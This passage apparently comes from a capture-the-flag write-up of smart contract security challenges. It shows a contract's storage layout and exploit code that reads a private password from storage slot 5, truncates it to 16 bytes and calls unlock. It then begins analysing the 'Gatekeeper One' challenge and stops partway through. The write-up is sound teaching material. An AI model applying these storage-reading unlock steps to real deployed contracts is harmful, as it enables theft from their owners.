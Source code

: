 ```js
// [0] bool locked
// [1] uint256 ID
// [2]      awkwardness | denomination | flattening
// arrays start always in a new slot 
// [3] bytes32 data[0]
// [4] bytes32 data[1]
// [5] bytes32 data[2]
```

-----
**Exploitation**

We know the position of the password . We can unlock the contract. 

```js
await contract.getStorageAt(INSTANCE_ADDRESS,5);
/// We can manually extract the least significant 16 bytes or simply write a util contract like below
```

```js
contract Utils { 
    function get16Bytes(bytes32 value) public returns (bytes16) {
        return bytes16(value);
    }
}
```

```js
await contract.unlock(Returned_Value);
```

Challenge solved ✅

## Gatekeeper One

This challenge gave me hard time, two days to solve it but I learnt a lot during those days.

**Challenge description**

Make it past the gatekeeper and register as an entrant to pass this level.

--------
**Analysis**

Okay so we got three modifiers, each one represents a `barrier` we need to break through. I will be going through each modifier one by one.

#### gateOne

Looking to this gate it sounds really familiar

![GatekeeperOne gateOne](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138018/06809c8478417e00449644e9239e81acbb43073a701381acb4adf9097c50552e_eyyyd2.png)  

It implies that we should be using another contract to interact with the gate.

#### gateThree
